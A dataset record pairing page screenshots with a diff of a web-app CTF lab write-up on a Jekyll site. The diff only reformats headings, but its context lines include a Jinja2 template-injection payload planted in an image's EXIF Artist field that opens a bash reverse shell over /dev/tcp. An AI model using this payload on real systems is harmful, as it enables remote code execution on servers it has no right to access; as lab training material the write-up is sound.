

Before and after one commit to d4rkto0th/d4rkto0th.github.io, a Jekyll site: the page built from labs/webapp/Verbose.md, in a window 1280 px wide and 900 px high, scrolled down 7962 px. Shown: the whole window, without its empty margins (190-1089 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/labs/webapp/Verbose.md
+++ b/labs/webapp/Verbose.md
@@ -287,7 +287,8 @@ HSM{a3fec2e83dad}
 ✅ **Flag:** Retrieved from `/root/root.txt`
 
 ---
-**Alternative Payload**
+
+## Alternative Payload
 
 ```bash
 convert -size 1x1 xc:white /tmp/shell.png
@@ -310,7 +311,7 @@ exiftool -Artist='{{lipsum.__globals__.os.popen("bash -c \"bash -i >& /dev/tcp/1
 - Often not filtered (unlike `config`, `request`, `self`)
 - Provides access to imported modules like `os`
 
---
+---
 
 ## Key Learnings
 
````
